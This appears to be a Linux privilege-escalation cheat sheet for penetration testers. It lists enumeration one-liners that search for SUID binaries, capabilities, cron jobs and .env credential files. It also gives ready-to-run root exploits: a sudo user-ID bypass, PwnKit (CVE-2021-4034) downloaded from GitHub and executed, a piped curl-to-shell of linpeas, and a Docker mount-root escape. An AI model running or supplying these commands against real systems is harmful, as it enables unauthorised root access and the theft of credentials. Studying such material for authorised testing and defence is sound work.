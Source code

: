 # Linux Privilege Escalation

## System Enumeration

### [LinPEAS](https://github.com/peass-ng/PEASS-ng)

```bash
curl -sL https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

### Find SUID and GUID files

### SUID

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

### GUID

```bash
find / -type f -perm -2000 -ls 2>/dev/null
```

### Enviroment Variables

```bash
env || set
```

### Common Config Files

{% hint style="info" %}
If you want to black list any directory you can add: `-not -path "<PATH>/*"`
{% endhint %}

```bash
find / -type f -name ".env" 2>/dev/null

find / -type f -name "*conf*.php" 2>/dev/null
```

### Check Capabilities

```bash
getcap -r / 2>/dev/null
```

### Open Ports

```bash
ss -nltp
```

### Cron Jobs

```bash
# Cron files
find / -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```

### Process Monitor

{% hint style="info" %}
You can add words to the blacklist on the `grep -Ev` section.
{% endhint %}

```bash
old_ps=$(ps -eo user,command); while true; do new_ps=$(ps -eo user,command); \
diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" | \
grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

### Writable Scripts

```bash
find / -user <USER> -writable \( -name "*.sh" -o -name "*.py" \) -type f 2>/dev/null
```

## Exploits

### Sudo

Check sudo version

```bash
sudo -V | grep "Sudo ver"
```

Sudo < v1.28

```bash
sudo -u#-1 /bin/bash
```

### PwnKit - (CVE-2021-4034)

[https://github.com/Almorabea/pkexec-exploit/tree/main](https://github.com/ly4k/PwnKit/tree/main)

```bash
curl -sL https://raw.githubusercontent.com/Almorabea/pkexec-exploit/main/CVE-2021-4034.py \
-o PwnKit.py && python3 PwnKit.py
```

[https://github.com/ly4k/PwnKit/tree/main](https://github.com/ly4k/PwnKit/tree/main)

```bash
curl -sL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit \
-o PwnKit && chmod +x PwnKit && ./PwnKit
```

### Docker

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```
